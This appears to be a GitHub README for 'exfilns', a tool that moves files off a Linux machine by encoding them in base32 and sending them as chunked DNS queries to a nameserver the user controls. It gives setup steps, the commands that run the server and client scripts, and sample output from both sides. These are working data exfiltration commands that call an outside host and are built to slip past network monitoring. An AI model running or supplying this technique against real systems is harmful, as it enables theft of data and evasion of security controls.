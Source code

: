 # exfilns
Setup: 
have a NS record for the domain you want to use pointed to a server you own

As an example, I run exfil.baki.es pointed to a digital ocean droplet

```$ dig +short exfil.baki.es NS
ubuntu-nyc1-01.cloud.baki.es.```

On the server (ubuntu-nyc1-01.cloud.baki.es in the above example) run ns.py with root permissions (to bind to port 53) 

```$ python3 ns.py --origin exfil.baki.es
Started dns server```

from any Linux machine you should be able to run the fileupload.sh script to upload a file to that server and given the domain being used

With the examples above an output will look something like this from the client:

```$ fileupload.sh /path/to/file exfil.baki.es
This file will take 7 dns requests
start-7.aJw0K723Xh.fu.exfil.baki.es
krugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayj.0.aJw0K723Xh.fu.exfil.baki.es
aorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4.1.aJw0K723Xh.fu.exfil.baki.es
zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg.2.aJw0K723Xh.fu.exfil.baki.es
5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzs.3.aJw0K723Xh.fu.exfil.baki.es
ayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkru.4.aJw0K723Xh.fu.exfil.baki.es
gs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaor.5.aJw0K723Xh.fu.exfil.baki.es
sxg5akkrugs4zanfzsayjaorsxg5ak.6.aJw0K723Xh.fu.exfil.baki.es```


And like this from the server output will now have something like this:
```New file incoming, lines: 7
File: aJw0K723Xh is still missing 6 lines
File: aJw0K723Xh is still missing 5 lines
File: aJw0K723Xh is still missing 4 lines
File: aJw0K723Xh is still missing 3 lines
File: aJw0K723Xh is still missing 2 lines
File: aJw0K723Xh is still missing 1 lines
File: aJw0K723Xh completed upload
File: aJw0K723Xh written to disk```

The file is given a unique handle (above `aJw0K723Xh`) and is written in the same folder as the python script and is base32 encoded 
